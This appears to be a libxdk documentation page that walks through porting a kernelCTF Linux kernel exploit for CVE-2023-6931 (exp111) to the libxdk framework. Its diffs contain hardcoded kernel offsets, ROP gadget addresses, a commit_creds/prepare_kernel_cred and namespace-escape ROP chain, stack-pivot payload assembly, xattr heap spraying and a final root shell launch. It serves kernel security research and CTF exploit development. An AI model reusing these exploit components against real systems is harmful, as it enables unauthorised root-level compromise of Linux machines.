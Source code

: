 # How to port an existing exploit

## Introduction

Let's compare two versions of the same exploit (exp111):

* Original version submitted by researcher to kernelCTF ([exploit.c](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6931_lts_cos/exploit/lts-6.1.61/exploit.c) for lts-6.1.61)
* libxdk adapted version ([exploit.cpp](https://github.com/google/kernel-research/blob/main/libxdk/samples/exp111/exploit.cpp)) available in [samples folder](https://github.com/google/kernel-research/tree/main/libxdk/samples)

to have a high-level overview of typical porting process flow.

## Includes

Following the **Steps 1,2** of ["Creating Database" part of "How to get started" guide](how_to_get_started.md#creating-a-database), add necessary includes:

```diff
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>
 #include <sched.h>
 #include <string.h>
-#include <errno.h>
 #include <fcntl.h>
 #include <stdint.h>
 #include <sys/ioctl.h>
 #include <linux/rtnetlink.h>
 #include <linux/membarrier.h>

+#include <xdk/core.h>
+#include <xdk/postrip.h>

+INCBIN(target_db, "target_db.kxdb");
```

## Hardcoded sizes and offsets

Substitute hardcoded offsets, sizes etc (following **Steps 4-7** of ["Creating a Database" section of "How to get started" guide](how_to_get_started.md#creating-a-database)) from the original exploit:

```diff
-#define SK_RCU_OFF 744
-#define SK_DESTRUCT_OFF 720
-#define JOP_OFF (READ_BUF_SIZE - SK_RCU_OFF + SK_DESTRUCT_OFF - XATTR_HDR_LEN)

...

-#define XATTR_HDR_LEN 32
#define XATTR_DATA_LEN1 (READ_BUF_SIZE/2)
-#define XATTR_DATA_LEN2 (JOP_OFF + 8)
-
-/* How far out to inc */
-#define OOB_LOC1 688
-#define OOB_LOC2 1040
-/* Target event fds */
-#define TFD1 ((READ_BUF_SIZE - 8 + OOB_LOC1)/8)
-#define TFD2 ((READ_BUF_SIZE - 8 + OOB_LOC2)/8)
-/* Number of increments */
-#define NUM_INCS1 0x830
-#define NUM_INCS2 0xf
```

with `Target` definitions or rely on the already added symbols and structs from `target_db`. The process in case of above mentioned exploit could look like this:

* Define a variable to initialize **TargetDb**:

    ```diff
       int main (int argc, char **argv) {
        char name[32];
        int num_events = 0;
        int target_sock;
        int optval = 1;

    +    TargetDb kxdb(target_db, target_db_size);
        ```

* `Target` definitions for the exploit could look like this:

    ```diff
    +        Target st("kernelctf", "lts-6.1.61");
    +
    +        st.AddStruct("netlink_sock", 1120, {
    +            {"sk.sk_destruct", 720, 8},
    +            {"sk.sk_rcu.next", 744, 8},
    +            {"sk.sk_rcu.func", 752, 8},
    +            {"netlink_bind", 1040, 8},
    +            {"sk.sk_write_space", 688, 8} });
    +
    +        st.AddSymbol("__sk_destruct", 0xd1b360);
    +        st.AddSymbol("rtnetlink_bind", 0xd52e80);
    +
    +        kxdb.AddTarget(st);
    ```

    > **Note**
    > Mind the fact that `Target` allows adding symbol and structure information on per-target basis.

* Following **Step 8** of ["Creating a Database" section of "How to get started" guide](how_to_get_started.md#creating-a-database), detect on which target the TargetDb being run on, to be able to use correct symbol and offset values:

    ```diff
    +    auto target = kxdb.AutoDetectTarget();
    +
    +    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

* Calculate all of the necessary sizes and offsets in `main()`:

    ```diff
    +    /* Target event fds */
    +    auto sk_write_space_off = target.GetFieldOffset("netlink_sock", "sk.sk_write_space");
    +    auto netlink_bind_off = target.GetFieldOffset("netlink_sock", "netlink_bind");
    +    auto tfd1 = (READ_BUF_SIZE - 8 + sk_write_space_off)/8;
    +    auto tfd2 = (READ_BUF_SIZE - 8 + netlink_bind_off)/8;
    +
    +    auto __sk_destruct = target.GetSymbolOffset("__sk_destruct");
    +    auto sock_def_write_space = target.GetSymbolOffset("sock_def_write_space");
    +    num_incs1 = __sk_destruct - sock_def_write_space;
    +
    +    // (gdb) print rtnetlink_bind
    +    // $5 = {int (struct net *, int)} 0xffffffff81d52e80 <rtnetlink_bind>
    +    auto rtnetlink_bind = target.GetSymbolOffset("rtnetlink_bind");
    +    // (gdb) disassemble rtnetlink_bind
    +    // ...
    +    // 0xffffffff81d52e8f <+15>:	jmp    0xffffffff82404c80 <__x86_return_thunk>
    +    auto rtnetlink_bind_ret = target.GetSymbolOffset("rtnetlink_bind") + 0xf;
    +    auto num_incs2 = rtnetlink_bind_ret - rtnetlink_bind;
    +
    +    auto sk_rcu_off = target.GetFieldOffset("netlink_sock", "sk.sk_rcu.next");
    +    auto xattr_header_size = target.GetStructSize("simple_xattr");
    +    auto rop_off = READ_BUF_SIZE - sk_rcu_off - xattr_header_size;
    +
    +    auto sk_destruct_off = target.GetFieldOffset("netlink_sock", "sk.sk_destruct");
    +    char xattr_data[rop_off + sk_destruct_off + 8];
    ```

    > **Note**
    > If the structure or symbol was not defined via `Target` but used above, it means it's already present in `target_db` and available for all targets.

## Everything ROP related

Remove symbol and ROP gadget offsets as they're going to be substituted by libxdk ROP chain automated generation:

```diff
-#define PREPARE_KERNEL_CRED 0x1bb6b0
-#define COMMIT_CREDS 0x1bb410
-#define FIND_TASK_BY_VPID 0x1b1df0
-#define SWITCH_TASK_NAMESPACES 0x1b9880
-
-#define DO_SYS_VFORK 0x18c3b0
-#define MSLEEP 0x224be0
-
-#define INIT_NSPROXY 0x2676600
-
-#define MOV_RSP_RBP_POP_RBP_RET 0x12aeac
-#define POP_RDI_RET_THUNK 0x0d8a3a
-#define POP_RSI_RET_THUNK 0x04899f
-#define MOV_RDI_RAX_POP_RBX_RET_THUNK 0x0d4f31
```

The functionality responsible for constructing ROP chain could also be removed:

```diff
-void prepare_rop (long *rop, long kbase) {
-    rop[JOP_OFF/8] = kbase + MOV_RSP_RBP_POP_RBP_RET;
-
-    rop += (JOP_OFF - SK_DESTRUCT_OFF)/8;
-    /* commit_creds(prepare_kernel_cred(0)) */
-    rop++;
-    *rop++ = kbase + POP_RDI_RET_THUNK;
-    *rop++ = 0;
-    *rop++ = kbase + PREPARE_KERNEL_CRED;
-    *rop++ = kbase + MOV_RDI_RAX_POP_RBX_RET_THUNK;
-    rop++;
-    *rop++ = kbase + COMMIT_CREDS;
-    /* switch_task_namespaces(find_task_by_vpid(1, init_ns_proxy) */
-    *rop++ = kbase + POP_RDI_RET_THUNK;
-    *rop++ = 1;
-    *rop++ = kbase + FIND_TASK_BY_VPID;
-    *rop++ = kbase + POP_RSI_RET_THUNK;
-    *rop++ = kbase + INIT_NSPROXY;
-    *rop++ = kbase + MOV_RDI_RAX_POP_RBX_RET_THUNK;
-    rop++;
-    *rop++ = kbase + SWITCH_TASK_NAMESPACES;
-    /* telefork */
-    *rop++ = kbase + DO_SYS_VFORK;
-    *rop++ = kbase + MSLEEP;
-}
```

The steps to substitude deleted sections could be like this:

* Following ["Building the Payload" section of "How to Get Started" guide](how_to_get_started.md#building-the-payload) modify `main()` function of the exploit to rely on libxdk and previously calculated sizes / offsets:

    ```diff
    @@ -290,9 +331,39 @@
        }
        printf("[*] Leaked kernel base: %p\n", kernel_base);

    +    printf("[+] ROP chain:\n");
    +    RopChain rop(target, kernel_base);
    +    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    +    rop.AddRopAction(RopActionId::SWITCH_TASK_NAMESPACES, {1});
    +    rop.AddRopAction(RopActionId::TELEFORK, {100000});
    +    HexDump::Print(rop.GetData());
    +    printf("[+] ROP chain size: %d\n", rop.GetData().size());
    +
    +    Payload payload1(rop_off);
    +    Payload payload2(sk_destruct_off + 8);
    ```

* In the same fasion as described in ["Assembling the Final Payload with PayloadBuilder section"](how_to_get_started.md#assembling-the-final-payload-with-payloadbuilder) the payload buffer could be prepared for spraying:

    ```diff
    +    PayloadBuilder builder(target.pivots, kernel_base); // create builder
    +
    +    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    +    builder.AddPayload(payload2, Register::RBP, sk_destruct_off); // add payload, with register, and rip_offset
    +    builder.AddRopChain(rop); // add a rop chain
    +    if(!builder.Build()) exit(-1); // build it
    +
    +    builder.PrintDebugInfo();
    +
    +    printf("[+] Stack pivot and ROP part of payload:\n");
    +    HexDump::Print(payload2.GetData());
    +    printf("Stack pivot and ROP part of payload: %d\n", payload2.GetData().size());

    +    std::vector<uint8_t> full_payload;
    +    full_payload.insert(full_payload.end(), payload1.GetData().begin(), payload1.GetData().end());
    +    full_payload.insert(full_payload.end(), payload2.GetData().begin(), payload2.GetData().end());
    +
    +    printf("[+] Full payload:\n");
    +    HexDump::Print(full_payload);
    +    printf("Full payload size: %d\n", full_payload.size());
    +
    ```

* Final modification to `main()` to adjust spraying routine to use `Payload` buffer look like this:

    ```diff
        /* Trigger ROP */
    -    prepare_rop(xattr_data, kernel_base);
    -    spray_simple_xattrs(XATTR_SPRAY2, xattr_data, XATTR_DATA_LEN2);
    +    spray_simple_xattrs(XATTR_SPRAY2, full_payload.data(), full_payload.size());

        if (setsockopt(target_sock, SOL_SOCKET, SO_SNDBUF, &optval, sizeof(optval)) == -1)
            err_exit("[-] setsockopt");
    @@ -321,4 +392,4 @@
        printf("[*] Launching shell\n");
        system("/bin/sh");
        return 0;

    ```


